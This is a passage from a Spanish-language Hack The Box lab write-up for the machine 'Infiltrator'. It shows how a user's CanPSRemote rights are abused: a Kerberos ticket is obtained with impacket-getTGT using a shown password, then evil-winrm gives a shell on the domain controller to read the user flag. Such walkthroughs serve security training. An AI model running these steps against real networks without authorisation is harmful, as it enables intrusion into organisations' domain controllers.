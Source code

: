 ### Abuse CanPSRemote privileges to connect with machine

Revisando nuevamente en `BloodHound`, verificamos que el usuario que disponemos tiene privilegios de `CanPSRemote` sobre el Domain Controller `DC01`. Esto nos proporciona el privilegio de acceder remotamente al equipo, mediante WinRM o RDP.

<figure><img src="../../.gitbook/assets/3776_vmware_RW16mO6T8p.png" alt=""><figcaption></figcaption></figure>

Procederemos a solicitar el TGT (Ticket Granting Ticket) del usuario actual, verificaremos que se encuentra correctamente configurado el TGT.

```bash
❯ impacket-getTGT infiltrator.htb/m.harris:'Password01!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.harris.ccache

❯ export KRB5CCNAME=$(pwd)/m.harris.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/m.harris.ccache
Default principal: m.harris@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:40:23  18/01/25 01:40:23  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 01:40:23, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```

Nos conectaremos mediante `evil-winrm` al DC y verificaremos la flag de **user.txt**.

```bash
❯ evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> type ../Desktop/user.txt
0e37c6698b4b********************
```
